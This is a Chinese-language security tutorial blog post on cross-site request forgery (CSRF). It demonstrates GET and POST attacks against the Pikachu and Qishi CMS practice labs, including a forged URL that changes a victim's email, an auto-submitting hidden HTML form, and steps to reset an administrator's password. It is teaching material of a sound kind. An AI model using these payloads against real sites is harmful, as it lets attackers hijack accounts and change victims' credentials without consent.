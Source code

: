 
## 触发条件

触发条件其实是比较严苛的----

1.  用户成功登录页面
2.  修改密码等信息不需要用户二次确认
3.  攻击者要提前明了参数构造格式
    1.  注册同一网站账号
    2.  找到网站内容模板
    3.  参数字典---模糊测试
4.  诱导用户在同一浏览器下既登录攻击目标网站又点击了恶意链接---要让用户心甘情愿不知不觉的点击需要社会工程学与web伪造页面的加持

## 漏洞检测

抓取一个正常请求的数据包，去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。

Referer字段：根据HTTP协议，在HTTP头中有一个字段叫Referer，它记录了该HTTP请求的来源地址。

![](https://i-blog.csdnimg.cn/blog_migrate/43c7bb2a1c53d64fa57b13de2ec120b7.png)


## 三、CSRF漏洞的类型

### 3.1. GET型CSRF攻击

发送get请求情况，通常我们在编写代码的时候针对发送get请求的情况比较多，比如点击html的a标签，img标签，或者主动构造参数发送get请求，所有的Get请求参数均会被拼接到url上面，所以可以通过简单的构造url就可以完成攻击。接下来我们将在Pikachu漏洞平台演示CSRF的GET攻击  
步骤一、打开Pikachu，选择get方式的csrf  
第二步、随便登录一个账号: vince/allen/kobe/grady/kevin/lucy/lili,密码均为123456, 比如登录lili， 然后使用burpsuite抓取修改个人信息的数据包, 或者F12打开控制台切换至Network进行抓包  
第三步、我们将抓取到的url的请求参数修改成自己的, 例如将邮箱参数修改成hacker@qq.com, 那么构成的CSRF攻击payload为

```html
http://127.0.0.1/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=18626545453&add=chain&email=hacker@qq.com&submit=submit
```

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5e5558aa175a155e1feab6c0d329a287.png)  
这里面用户的登录唯一标识是PHPSESSID里面的那一串值  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/69fe50ca4753ff53433fed8d7ededf3a.png)  
若用户点击了上述伪造的url, 则会将用户自己的邮箱修改成hacker@qq.com，即完成了一次CSRF的攻击。  
![请添加图片描述](https://i-blog.csdnimg.cn/blog_migrate/52e40d36a93c00b98b94f53356404ce1.gif)  
同理可以将受害者用户的用户名密码进行修改，攻击者就可以登录受害者的账户啦，从这个实例大家可能看到的都是lili这个账户自己将邮箱修改为hacker@qq.com，但是如果CSRF攻击配合XSS攻击，那么首先用户通过XSS攻击获得受害者的cookie/token，就比如上题里面的PHPSESSID，然后再构造新的请求，带上登录认证的cookie信息或token信息，那不就危害加成了嘛。

### 3.2. POST型CSRF攻击

虽然POST请求无法通过伪造URL进行攻击, 但是可以通过伪造恶意网页, 将伪造的POST请求隐藏在恶意网页的表单中, 然后诱引用户点击按钮提交表单, 数据自然就POST至存在CSRF漏洞的网页, 最终用户的信息会被修改

此处运行CSRFTESTER工具来制作恶意网页, 首先浏览器配置网络代理, 监听本机的8008端口,然后在CSRFTESTER点击Start Recording开始抓包  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/071333d26bb23eb5c54a0d8382972d8b.png)  
抓到修改个人信息的数据包后, 在CSRFTESTER删除除了POST请求的其他数据, 将类型修改成POST, 然后点击下面的Generate HTML生成HTML文件  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/42d619a2d5523b128e3ebf7fbc8cd309.png)  
找到生成的HTML文件并对其编辑, 将下面那行修改成, 然后其他POST参数都可自行设置, 这里我将电话号码修改成了999999999

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

<html>
<head>
<title>OWASP CRSFTester Demonstration</title>
</head>

<body onload="javascript:fireForms()">
<script language="JavaScript">
var pauses = new Array( "30" );

function pausecomp(millis)
{
    var date = new Date();
    var curDate = null;

    do { curDate = new Date(); }
    while(curDate-date < millis);
}

function fireForms()
{
    var count = 1;
    var i=0;
    
    for(i=0; i<count; i++)
    {
        document.forms[i].submit();
        
        pausecomp(pauses[i]);
    }
}
    
</script>
<H2>OWASP CRSFTester Demonstration</H2>
<form method="POST" name="form0" action="http://127.0.0.1:80/pikachu/vul/csrf/csrfpost/csrf_post_edit.php">
<input type="hidden" name="sex" value="girl"/>
<input type="hidden" name="phonenum" value="999999999"/>
<input type="hidden" name="add" value="chain"/>
<input type="hidden" name="email" value="hacker@qq.com"/>
<input type="submit" name="submit" value="submit"/>
</form>

</body>
</html>
```

在浏览器打开生成的恶意网页, 当用户点击submit按钮后, 用户的个人信息就会被修改  
![请添加图片描述](https://i-blog.csdnimg.cn/blog_migrate/6ec096e8b59ca35ca7a1285438400193.gif)


## 漏洞利用实验

利用靶场：骑士 CMS

需要额外搭建一台服务器，放入恶意代码伪装的html

### burp suit实现需改新建管理员密码

![](https://i-blog.csdnimg.cn/blog_migrate/221596a6904d796c5930a28c55aa653d.png)

先声明使用burp suit不是本意，前提是我们需要知道 参数构造格式

![](https://i-blog.csdnimg.cn/blog_migrate/3572f7d123faf2435ffb546afd299113.png)

截获新建管理员的post请求如图用CSRF POC生成html代码，这里需要我们手动把内容粘贴到txt

并对想修改的信息(密码/邮箱)更改然后生成.html 然后将这个.html放入我们新搭建的服务器www

![](https://i-blog.csdnimg.cn/blog_migrate/b51c5f80c7cc371c37f4ba3916c6f875.png)  
![](https://i-blog.csdnimg.cn/blog_migrate/bb58d8045a36a5a6fdb4d788110a2114.png)

![](https://i-blog.csdnimg.cn/blog_migrate/c56074a9cb1aa426007250c3b9ff6ca1.png)

&nbsp;这是burp suit自动生成的网页，需要点击按钮就执行恶意代码

当然前提还是浏览器同时运行成功登录的管理页面(这里为本地路径，应该为服务器存放网页的路径)

&nbsp;点击后就自动跳转为更改成功的页面，但是这里更改的信息就是按照攻击者的请求进行的

### OWASP-CSRFTester实现同样功能

他的实现原理和通过burp suite一样，但是相比较两个最大好处 ：

**不需要拦截数据包**

**生成的恶意连接不需要受害人点击只要打开直接执行**

![](https://i-blog.csdnimg.cn/blog_migrate/b685297566bf48bfbb1dcb2352d084db.png)

![](https://i-blog.csdnimg.cn/blog_migrate/828f941a978611afa06811f5e67c864e.png)

和burp suit一样要设置代理，根据提示让他监听8008端口

![](https://i-blog.csdnimg.cn/blog_migrate/85fa9a65491fa87701a584bccaac56ba.png)

&nbsp;点击右上角的 start recoding 就能监听当前所有的get/post请求，受害者执行新建用户操作是一个post请求，通过右下部分表单来定位到这个请求，然后右下角生成表单存在本地（display in browser要取消勾选要不然生成表单会弹出一个网页）

![](https://i-blog.csdnimg.cn/blog_migrate/7a138266e0ff5036f4de1666ab953bf5.png)

存在本地的是一个html文件 将他记事本打开就能发现密码等重要信息，改就完了

&nbsp;![](https://i-blog.csdnimg.cn/blog_migrate/cdb6e42b3d5c815e480a55c456c12934.png)

点击后没有任何跳转页面，但是再输入原本的用户post请求的账号密码无法登录，说明已经被更改密码
